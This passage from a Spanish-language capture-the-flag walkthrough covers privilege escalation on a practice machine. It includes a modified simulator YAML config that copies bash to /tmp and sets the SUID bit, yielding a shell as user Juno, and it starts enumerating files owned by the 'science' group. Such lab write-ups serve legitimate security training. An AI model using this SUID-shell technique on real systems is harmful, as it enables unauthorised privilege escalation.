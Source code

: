 Como tenemos permisos de escritura en el archivo, entonces podemos decirle que ejecute cualquier otro comando, lo mas sencillo es darle permisos SUID a bash para que nosotros tengamos una shell como Juno, editaremos el archivo yaml de esta manera:

```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```
Y depues de unos segundos en el directorio ```/tmp``` tendremos el binario bash con permisos SUID, solo ejecutamos y ya somos Juno, ah este punto ya tenemos la flag de user

## Movimiento lateral de Juno a Jovian

Si vemos a que grupos pertenece Juno, podemos ver que existe en el Science:

```
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
```

Si buscamos por acrhivos que pertenescan a ese grupo, encontramos varios de Jupyter

```
find / -type f -group science 2> /dev/null
```

```
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
```